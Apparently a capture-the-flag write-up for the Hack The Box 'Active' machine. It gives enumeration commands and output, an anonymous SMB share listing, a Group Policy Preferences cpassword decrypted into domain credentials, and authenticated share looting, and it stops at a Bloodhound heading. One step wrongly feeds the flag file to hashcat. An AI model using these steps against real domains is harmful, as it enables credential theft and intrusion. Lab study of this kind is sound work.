 ## **Box Info::**
OS: Windows \
IP: 10.10.10.100

## **Skills learned::**
Windows
Active Directory
Kerberoasting
Powershell

### **Enumeratiion::**
nmap -p- -A -oN (-f to bypass FW) Activeports.txt ${IP}
dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
#find all nmap scripts to enum smb

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-25 01:07:00Z) #Make sure attack box is within 1min of this time.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? *** Nice target to try first ***
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
|_clock-skew: 23m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-25T01:07:55
|_  start_date: 2021-12-25T01:04:50

```

### **OSINT::**
+ https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage
+

### **Part 1::**
```
smbclient -L \\\\Active\\                                                                             1 ⨯
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
        
smbclient \\\\Active\\Replication
      smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 06:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 06:37:44 2018
      
 smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> more Groups.xml
      <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

  smb: prompt off
  smb: resurse on
  smb: mget *
```
# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ :: GPPstillStandingStrong2k18

**Creds::**
active.htb/svc_tgs:GPPstillStandingStrong2k18

enum4linux <ip> # gives smb share login access.
smbmap -H <ip> # lists shares
smbmap -R <share name> -H <ip> -A <file> -q #quiet

GetADUsers.py -all active.htb/svc_tgs -dc-ip <ip>

Try smbmap again::
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip>
:: Now READ ONLY access to NETLOGON,Replication,SYSVOL,Users
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip> -R Users #recursively list files in Users smb share
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt -q
cat user.txt :: 86d67d8ba232bb6a254aa4d10159e983 >hashsmb.txt
hashcat hashsmb.txt /usr/share/wordlist/rockyou.txt

**Part II: Bloodhound::**